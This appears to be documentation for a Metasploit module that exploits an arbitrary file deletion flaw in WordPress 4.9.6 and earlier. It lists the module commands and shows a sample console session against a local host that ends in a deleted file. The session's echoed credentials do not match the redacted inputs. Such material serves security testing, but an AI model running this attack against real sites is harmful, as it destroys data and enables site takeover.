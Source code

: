 ## Description

An arbitrary file deletion vulnerability in the WordPress core allows any user with privileges of an 
Author to completely take over the WordPress site and to execute arbitrary code on the server.
 
## Vulnerable Application

WordPress <= 4.9.6

## Verification Steps

1. Do: ```use auxiliary/scanner/http/wp_arbitrary_file_deletion```
2. Do: ```set USERNAME [USERNAME]```
3. Do: ```set PASSWORD [PASSWORD]```
4. Do: ```set RHOSTS [IP]```
5. Do: ```run```

## Scenarios

```
msf > use auxiliary/scanner/http/wp_arbitrary_file_deletion 
msf auxiliary(scanner/http/wp_arbitrary_file_deletion) > set VERBOSE true
VERBOSE => true
msf auxiliary(scanner/http/wp_arbitrary_file_deletion) > set RPORT 8000
RPORT => 8000
msf auxiliary(scanner/http/wp_arbitrary_file_deletion) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf auxiliary(scanner/http/wp_arbitrary_file_deletion) > set PASSWORD xxx
PASSWORD => password1
msf auxiliary(scanner/http/wp_arbitrary_file_deletion) > set USERNAME xxx
USERNAME => techbrunch
msf auxiliary(scanner/http/wp_arbitrary_file_deletion) > run

[*] Checking if target is online and running Wordpress...
[*] Checking access...
[*] Getting the nonce...
[*] Uploading media...
[*] Editing thumb path...
[*] Deleting media...
[+] File deleted!
[*] Auxiliary module execution completed
```
